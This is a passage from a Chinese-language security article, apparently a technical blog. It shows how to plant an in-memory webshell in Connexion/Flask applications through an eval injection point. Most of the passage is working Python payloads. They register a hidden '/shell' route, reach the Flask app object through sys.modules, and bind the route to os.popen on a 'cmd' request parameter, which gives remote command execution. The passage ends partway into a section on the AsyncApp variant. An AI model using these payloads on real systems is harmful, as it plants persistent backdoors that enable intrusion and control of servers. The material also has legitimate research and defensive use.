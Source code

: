 ```python
#1
app.url_map.add(app.url_rule_class('/shell',methods=['get'],endpoint='shell'))

#2
app.view_functions.update({'shell':lambda:__import__('os').popen('id').read()})
```

现在需要先获取`app`变量（`FlaskASGIApp`的对象）去操作内存中的路由，由于`connexion`规范下，方法定义通常在各单独的文件中（例如前面`api/eval.py`的定义），通常并不会在文件中`import app`，所以如果在`eval`中直接调用`app`会报`NameError: name 'app' is not defined`的错误，可以通过下面反射方式调用`FlaskASGIApp`对象。

```python
__import__('sys').modules['__main__'].__dict__['app']
```

`FlaskASGIApp`的`app`属性才是`flask`对象，通过下面语句获得`flask`对象：

```python
__import__('sys').modules['__main__'].__dict__['app'].app
```

将`app`进行替换，所以步骤1修改为：

```python
__import__('sys').modules['__main__'].__dict__['app'].app.url_map.add(__import__('sys').modules['__main__'].__dict__['app'].app.url_rule_class('/shell',methods=['get'],endpoint='shell'))
```

步骤2修改为：

```python
__import__('sys').modules['__main__'].__dict__['app'].app.view_functions. update({'shell':lambda:__import__('os').popen('id').read()})
```

如果需要接收请求中的命令，则将步骤2修改为：

```python
__import__('sys').modules['__main__'].__dict__['app'].app. view_functions.update({'shell':lambda:__import__('os').popen(__import__('sys'). modules['__main__'].__dict__['app'].app.request_context.__globals__['request_ctx'].request.args.get('cmd','id')).read()})
```

发送步骤1、2的请求后，即可访问新增的`/shell`路由，效果如下：

 ![](/attachments/2025-04-09-connexion-api/85b87401-bdfe-4ee2-b116-4cc6190d29bd.png " =1045x354")

### 四、AsyncApp启动方式植入内存马

从 Connexion 3.x 开始，支持将底层从 `Flask` 替换为 `Starlette`，从而兼容 异步（ASGI）场景。在这种场景下如何植入内存马？

#### 4.1 add_url_rule尝试

查看`AsyncApp`定义，有一个`add_url_rule`方法：

```python
class AsyncApp(AbstractApp):
    self._middleware_app: AsyncASGIApp = AsyncASGIApp()
    ......
    def add_url_rule(  
        self,
        rule,
        endpoint: t.Optional[str] = None,
        view_func: t.Optional[t.Callable] = None,
        **options,
    ):
        self._middleware_app.add_url_rule(  #1
            rule, endpoint=endpoint, view_func=view_func, **options
        )
    ......
```
